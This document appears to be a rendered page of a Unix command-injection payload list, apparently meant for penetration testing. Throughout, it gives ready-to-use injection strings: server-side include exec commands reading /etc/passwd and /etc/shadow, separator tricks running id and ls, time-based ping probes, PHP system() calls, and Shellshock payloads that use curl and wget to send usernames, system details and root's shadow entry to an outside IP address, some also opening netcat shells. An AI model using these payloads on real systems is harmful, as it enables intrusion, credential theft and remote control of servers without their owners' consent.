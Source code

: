 Unix :
<pre>
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/shadow&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
/index.html|id|
;id;
;id
;netstat -a;
;system('cat%20/etc/passwd')
;id;
|id
|/usr/bin/id
|id|
|/usr/bin/id|
||/usr/bin/id|
|id;
||/usr/bin/id;
;id|
;|/usr/bin/id|
\n/bin/ls -al\n
\n/usr/bin/id\n
\nid\n
\n/usr/bin/id;
\nid;
\n/usr/bin/id|
\nid|
;/usr/bin/id\n
;id\n
|usr/bin/id\n
|nid\n
`id`
`/usr/bin/id`
a);id
a;id
a);id;
a;id;
a);id|
a;id|
a)|id
a|id
a)|id;
a|id
|/bin/ls -al
a);/usr/bin/id
a;/usr/bin/id
a);/usr/bin/id;
a;/usr/bin/id;
a);/usr/bin/id|
a;/usr/bin/id|
a)|/usr/bin/id
a|/usr/bin/id
a)|/usr/bin/id;
a|/usr/bin/id
;system('cat%20/etc/passwd')
;system('id')
;system('/usr/bin/id')
%0Acat%20/etc/passwd
%0A/usr/bin/id
%0Aid
%0A/usr/bin/id%0A
%0Aid%0A
& ping -i 30 127.0.0.1 &
& ping -n 30 127.0.0.1 &
%0a ping -i 30 127.0.0.1 %0a
`ping 127.0.0.1`
| id
& id
; id
%0a id %0a
`id`
$;/usr/bin/id
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=16?user=\`whoami\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=18?pwd=\`pwd\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=20?shadow=\`grep root /etc/shadow\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=22?uname=\`uname -a\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=24?shell=\`nc -lvvp 1234 -e /bin/bash\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=26?shell=\`nc -lvvp 1236 -e /bin/bash &\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=5"
() { :;}; /bin/bash -c "sleep 1 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=1&?vuln=6"
() { :;}; /bin/bash -c "sleep 1 && echo vulnerable 1"
() { :;}; /bin/bash -c "sleep 3 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=3&?vuln=7"
() { :;}; /bin/bash -c "sleep 3 && echo vulnerable 3"
() { :;}; /bin/bash -c "sleep 6 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=6&?vuln=8"
() { :;}; /bin/bash -c "sleep 6 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=9&?vuln=9"
() { :;}; /bin/bash -c "sleep 6 && echo vulnerable 6"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=17?user=\`whoami\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=19?pwd=\`pwd\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=21?shadow=\`grep root /etc/shadow\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=23?uname=\`uname -a\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=25?shell=\`nc -lvvp 1235 -e /bin/bash\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=27?shell=\`nc -lvvp 1237 -e /bin/bash &\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=4"
cat /etc/hosts
$(`cat /etc/passwd`)
cat /etc/passwd
%0Acat%20/etc/passwd
&lt;{{ get_user_file("/etc/passwd") }}&gt;
&lt; !--#exec cmd="/bin/cat /etc/passwd"--&gt;
&lt; !--#exec cmd="/bin/cat /etc/shadow"--&gt;
&lt; !--#exec cmd="/usr/bin/id;"--&gt;
system('cat /etc/passwd');
&gt;<?php system("cat /etc/passwd");?>&gt;
</pre>

